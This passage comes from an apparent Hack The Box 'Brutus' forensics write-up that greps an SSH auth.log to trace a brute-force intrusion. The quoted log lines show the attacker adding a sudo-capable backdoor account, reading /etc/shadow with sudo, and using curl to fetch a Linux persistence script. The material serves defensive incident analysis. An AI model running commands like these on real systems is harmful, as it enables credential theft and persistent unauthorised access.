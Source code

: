 We can finally see that the IP address of the attacker is ``65.2.161.68``.

### 2. The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

To look for a successful login attempt, we can `grep` the auth.log file looking for the word "Accepted". This will return all the lines in the auth.log file that contain the word "Accepted". 

```bash
┌──(shimp㉿kali)-[~/Desktop/HTB/sherlok/brutus]
└─$ grep Accepted auth.log
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
```

We can see that the attacker gained access to the root account, but alos to an account called ``cyberjunkie``.

Let's investigate the account ``cyberjunkie`` further.


```bash
┌──(shimp㉿kali)-[~/Desktop/HTB/sherlok/brutus]
└─$ grep cyberjunkie auth.log
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: pam_unix(sshd:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:34 ip-172-31-35-28 systemd-logind[411]: New session 49 of user cyberjunkie.
Mar  6 06:37:34 ip-172-31-35-28 systemd: pam_unix(systemd-user:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
```

